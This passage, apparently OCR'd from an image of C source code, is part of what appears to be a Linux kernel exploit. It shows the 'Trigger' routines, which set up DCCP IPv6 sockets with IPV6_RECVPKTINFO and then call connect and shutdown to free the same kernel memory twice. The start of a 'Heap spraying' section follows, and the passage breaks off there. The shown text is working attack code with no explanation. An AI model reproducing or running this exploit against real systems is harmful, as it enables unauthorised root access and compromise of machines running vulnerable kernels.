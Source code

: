     }
    // * * * * * * * * * * * * * * * Trigger * * * * * * * * * * * * * * * * * *
    struct dccp_handle {
        struct sockaddr_in6 sa;
        int s1;
        int s2;
    };
    void dccp_init(struct dccp_handle *handle, int port) {
        handle->sa.sin6_family = AF_INET6;
        handle->sa.sin6_port = htons(port);
        inet_pton(AF_INET6, "::1", &handle->sa.sin6_addr);
        handle->sa.sin6_flowinfo = 0;
        handle->sa.sin6_scope_id = 0;
        handle->s1 = socket(PF_INET6, SOCK_DCCP, IPPROTO_IP);
        if (handle->s1 == -1) {
            perror("socket(SOCK_DCCP)");
            exit(EXIT_FAILURE);
        }
        int rv = bind(handle->s1, &handle->sa, sizeof(handle->sa));
        if (rv != 0) {
            perror("bind()");
            exit(EXIT_FAILURE);
        }
        rv = listen(handle->s1, 0x9);
        if (rv != 0) {
            perror("listen()");
            exit(EXIT_FAILURE);
        }
        int optval = 8;
        rv = setsockopt(handle->s1, IPPROTO_IPV6, IPV6_RECVPKTINFO,
                &optval, sizeof(optval));
        if (rv != 0) {
            perror("setsockopt(IPV6_RECVPKTINFO)");
            exit(EXIT_FAILURE);
        }
        handle->s2 = socket(PF_INET6, SOCK_DCCP, IPPROTO_IP);
        if (handle->s1 == -1) {
            perror("socket(SOCK_DCCP)");
            exit(EXIT_FAILURE);
        }
    }
    void dccp_kmalloc_kfree(struct dccp_handle *handle) {
        int rv = connect(handle->s2, &handle->sa, sizeof(handle->sa));
        if (rv != 0) {
            perror("connect(SOCK_DCCP)");
            exit(EXIT_FAILURE);
        }
    }
    void dccp_kfree_again(struct dccp_handle *handle) {
        int rv = shutdown(handle->s1, SHUT_RDWR);
        if (rv != 0) {
            perror("shutdown(SOCK_DCCP)");
            exit(EXIT_FAILURE);
        }
    }
    void dccp_destroy(struct dccp_handle *handle) {
        close(handle->s1);
        close(handle->s2);
    }
    // * * * * * * * * * * * * * * Heap spraying * * * * * * * * * * * * * * * * *
    struct udp_fifo_handle {
        int fds[2];
    };
    void udp_fifo_init(struct udp_fifo_handle* handle) {